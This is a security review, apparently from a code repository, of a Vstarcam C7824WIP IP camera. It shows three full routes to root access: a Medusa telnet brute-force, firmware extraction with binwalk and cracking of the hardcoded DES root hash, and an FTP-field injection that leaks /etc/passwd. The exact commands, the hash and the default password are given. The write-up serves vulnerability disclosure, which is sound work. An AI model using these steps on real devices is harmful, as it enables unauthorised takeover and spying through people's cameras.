


C7824WIP Security Review : East Pen test with the full process from initial trials to root access.

## Security vulnerabilities

Final achievements :  
\- Remotely take control of the camera (telnet)  
\- Find the web UI password

For this, we used the following methods :  
\- Bruteforce : success  
\- Firmware reverse engineering : success  
\- Form injection : success

## Penetration test

### Method 1 : Bruteforce

We're able to crack the password in a few seconds using Medusa. Hydra fails to crack the password.

```
medusa -u root -P passwords.txt -h 192.168.1.16 -M telnet
```

```
Medusa v2.1.1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 111111 (1 of 370 complete)
ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 11111111 (2 of 370 complete)
ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 112233 (3 of 370 complete)
ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 121212 (4 of 370 complete)
ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123123 (5 of 370 complete)
ACCOUNT CHECK: [telnet] Host: 192.168.1.16 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (6 of 370 complete)
ACCOUNT FOUND: [telnet] Host: 192.168.1.16 User: root Password: 123456 [SUCCESS]
```

So the root password : 123456.

### Method 2 : Reverse engineering

#### Tools

##### Binwalk

Binwalk is a firmware analysis tool designed for analyzing, reverse engineering and extracting data contained in firmware images.  
The last stable version of Binwalk (2.1.1) was not extracting the firmware correctly, so I had to install the 2.0.0.

Install Binwalk 2.0.0 :

```
wget https://github.com/devttys0/binwalk/archive/v2.0.0.zip
unzip v2.0.0.zip
cd binwalk-2.0.0
/deps.sh
./configure
make
make install	
```

#### Firmware reverse engineering

##### Firmware servers and download link

Sniffing the traffic between the Vstarcam firmware upgrade software and Internet allows us to easily identify the servers and the protocol used to retrieve and upgrade camera firmware.



Remote file : http://45.63.8.70/FM/system/firmware.txt So we can download our firmware (45.63.8.70) using the following link : http://45.63.8.70/FM/system/CH-sys-48.53.64.67.zip

##### Firmware download and extraction

Create a working folder, download and extract the zipped firmware :

```
mkdir firmware
cd firmware
wget http://45.63.8.70/FM/system/CH-sys-48.53.64.67.zip
unzip CH-sys-48.53.64.67.zip	
```

Binary header analysis :

```
head -n1 CH-sys-48.53.64.67.bin | hexdump -C
```

```
00000000  77 77 77 2e 6f 62 6a 65  63 74 2d 63 61 6d 65 72  |www.object-camer|
00000010  61 2e 63 6f 6d 2e 62 79  2e 68 6f 6e 67 7a 78 2e  |a.com.by.hongzx.|
00000020  73 79 73 74 65 6d 2f 73  79 73 74 65 6d 2f 6c 69  |system/system/li|
00000030  62 2f 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |b/..............|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000060  6c 69 62 73 6e 73 5f 67  63 31 30 30 34 2e 73 6f  |libsns_gc1004.so|
00000070  2e 7a 69 70 00 00 00 00  00 00 00 00 00 00 00 00  |.zip............|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000a0  e3 23 00 00 43 40 35 30  00 00 00 00 50 4b 03 04  |.#..C@50....PK..|
000000b0  14 00 00 00 08 00 fa 8b  5d 47 89 42 30 43 09 23  |........]G.B0C.#|
000000c0  00 00 93 4a 00 00 22 00  1c 00 73 79 73 74 65 6d  |...J.."...system|
000000d0  2f 73 79 73 74 65 6d 2f  6c 69 62 2f 6c 69 62 73  |/system/lib/libs|
000000e0  6e 73 5f 67 63 31 30 30  34 2e 73 6f 55 54 09 00  |ns_gc1004.soUT..|
000000f0  03 88 e7 31 56 88 e7 31  56 75 78 0b 00 01 04 ed  |...1V..1Vux.....|
00000100  03 00 00 04 ed 03 00 00  e5 7c 0b 78 53 55 d6 f6  |.........|.xSU..|
00000110  3e b9 b4 69 9a cb 69 cf  29 96 8b 92 0a           |>..i..i.)....|
```

We should be able to use Binwalk to extract the firmware :

```
binwalk -Mer CH-sys-48.53.64.67.bin
```

```
Scan Time:     2016-01-20 01:02:57
Target File:   CH-sys-48.53.64.67.bin
MD5 Checksum:  58df9214226cfe46760215bfca0c496c
Signatures:    285

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
172           0xAC            Zip archive data, at least v2.0 to extract, compressed size: 8969,  uncompressed size: 19091, name: "system/system/lib/libsns_gc1004.so"
9337          0x2479          End of Zip archive
9499          0x251B          Zip archive data, at least v2.0 to extract, compressed size: 7813,  uncompressed size: 16341, name: "system/system/lib/libsns_ov9712_plus.so"
17518         0x446E          End of Zip archive
17680         0x4510          Zip archive data, at least v2.0 to extract, compressed size: 90121,  uncompressed size: 353248, name: "system/system/lib/libOnvif.so"
107987        0x1A5D3         End of Zip archive
108149        0x1A675         Zip archive data, at least v2.0 to extract, compressed size: 43603,  uncompressed size: 84480, name: "system/system/lib/libvoice_arm.so"
151946        0x2518A         End of Zip archive
152108        0x2522C         Zip archive data, at least v2.0 to extract, compressed size: 130,  uncompressed size: 227, name: "system/init/ipcam.sh"
152406        0x25356         End of Zip archive
152568        0x253F8         Zip archive data, at least v2.0 to extract, compressed size: 402383,  uncompressed size: 886168, name: "system/system/bin/encoder"
555129        0x87879         End of Zip archive
555291        0x8791B         Zip archive data, at least v2.0 to extract, compressed size: 35394,  uncompressed size: 74200, name: "system/system/bin/wifidaemon"
590869        0x90415         End of Zip archive
591031        0x904B7         Zip archive data, at least v2.0 to extract, compressed size: 1852,  uncompressed size: 9692, name: "system/system/bin/grade.sh"
593063        0x90CA7         End of Zip archive
593225        0x90D49         Zip archive data, at least v2.0 to extract, compressed size: 8704,  uncompressed size: 20212, name: "system/system/bin/updata"
602105        0x92FF9         End of Zip archive
602267        0x9309B         Zip archive data, at least v2.0 to extract, compressed size: 1874,  uncompressed size: 4522, name: "system/system/bin/gpio_aplink.ko"
604333        0x938AD         End of Zip archive
604495        0x9394F         Zip archive data, at least v2.0 to extract, compressed size: 7241,  uncompressed size: 16802, name: "system/system/bin/motogpio.ko"
611922        0x95652         End of Zip archive
612084        0x956F4         Zip archive data, at least v1.0 to extract, compressed size: 8,  uncompressed size: 8, name: "system/system/bin/fwversion.bin"
612282        0x957BA         End of Zip archive
612444        0x9585C         Zip archive data, at least v1.0 to extract, compressed size: 9,  uncompressed size: 9, name: "system/system/bin/sysversion.txt"
612645        0x95925         End of Zip archive
```

Using tree to see the files available :

```
tree _CH-sys-48.53.64.67.bin.extracted/
```

```
_CH-sys-48.53.64.67.bin.extracted/
└── system
    ├── init
    │   └── ipcam.sh
    └── system
        ├── bin
        │   ├── encoder
        │   ├── fwversion.bin
        │   ├── gpio_aplink.ko
        │   ├── grade.sh
        │   ├── motogpio.ko
        │   ├── sysversion.txt
        │   ├── updata
        │   └── wifidaemon
        └── lib
            ├── libOnvif.so
            ├── libsns_gc1004.so
            ├── libsns_ov9712_plus.so
            └── libvoice_arm.so

5 directories, 13 files
```

##### Firmware analysis and password retrieval

Looking for the files containing the “passwd” string :

```
grep -r "passwd" .
```

```
Binary file ./system/system/bin/wifidaemon matches
Binary file ./system/system/bin/encoder matches
```

And check in these files for the password.

wifidaemon

```
strings system/system/bin/wifidaemon | grep -A 1 -B 1 passwd
```

```
iRet %d pkey:%s keyvalue:%s
/etc/passwd
root:LSiuY7pOmZG2s:0:0:Administrator:/:/bin/sh
```

encoder

```
strings system/system/bin/encoder | grep -A 1 -B 1 passwd
```

```
    factory_user
    factory_passwd
    factory_alarmserver
    --
    alarmuser
    alarmpasswd
    alarmdeviceid
    --
    ===websLaunchCgiProc===
    /etc/passwd
    root:LSiuY7pOmZG2s:0:0:Administrator:/:/bin/sh
    --
    SET_PARAMETER
    check_user_passwd  right
    check_user_passwd  erro
    Unknown RTSP server state[%d]
```

So the hashed password for root user is : LSiuY7pOmZG2s. This is encrypted, you can’t use this one to login. We need to crack it first :

```
echo "root:LSiuY7pOmZG2s" > password.txt
john password.txt
```

```
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
123456           (root)
guesses: 1  time: 0:00:00:00 100% (2)  c/s: 17680  trying: 12345 - biteme
Use the "--show" option to display all of the cracked passwords reliably
```

The root password : 123456.

### Method 3 : Injection

Thanks to this [article](https://www.pentestpartners.com/blog/hacking-the-aldi-ip-cctv-camera-part-2/), we know that the system is interpreting the FTP user, so proceed as follow :



Save and proceed to a “test”. Then monitor the FTP server logs :

```
FTP session opened.
USER root:LSiuY7pOmZG2s:0:0:Administrator:/:/bin/sh: no such user found from 192.168.1.16 [192.168.1.16] to ::ffff:192.168.1.15:21
2FTP session closed.
```

So the hashed password for root user is : LSiuY7pOmZG2s. As already mentioned before, easy to decode :

```
echo "root:LSiuY7pOmZG2s" > password.txt
john password.txt
```

```
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
123456           (root)
guesses: 1  time: 0:00:00:00 100% (2)  c/s: 17680  trying: 12345 - biteme
Use the "--show" option to display all of the cracked passwords reliably
```

You're done with C7824WIP Security Review : East Pen test

